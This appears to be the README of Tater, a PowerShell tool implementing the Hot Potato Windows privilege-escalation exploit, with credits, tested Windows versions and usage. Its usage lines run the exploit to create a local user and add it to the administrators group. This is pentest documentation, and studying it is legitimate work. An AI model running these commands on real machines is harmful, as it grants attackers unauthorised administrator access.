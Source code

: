 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit.    

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
This version has been successful for me on Windows 7, Windows 10, and Windows Server 2012 R2. I will hopefully be able to test it on the remaining Windows versions soon. Feel free to open issues here or reach out on Twitter @kevin_robertson with successes or failures for the remaining OS versions. 

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Trigger 1 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Trigger 2 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"     

# Screenshots
Windows 7 using trigger 1 (NBNS WPAD Bruteforce + Windows Defender Signature Updates)
![tater2](https://cloud.githubusercontent.com/assets/5897462/12707930/d005af7c-c867-11e5-916d-20a015ed30ec.PNG)

Windows 10 using trigger 2 (WebClient Service + Scheduled Task)
![tater3](https://cloud.githubusercontent.com/assets/5897462/12707953/1f77c48c-c868-11e5-8ea3-5e0e26cd3bdd.PNG)

Windows 7 using trigger 1 and UDP port exhaustion
![tater4](https://cloud.githubusercontent.com/assets/5897462/12708234/673e3794-c86b-11e5-8cc0-398b7170b73f.PNG)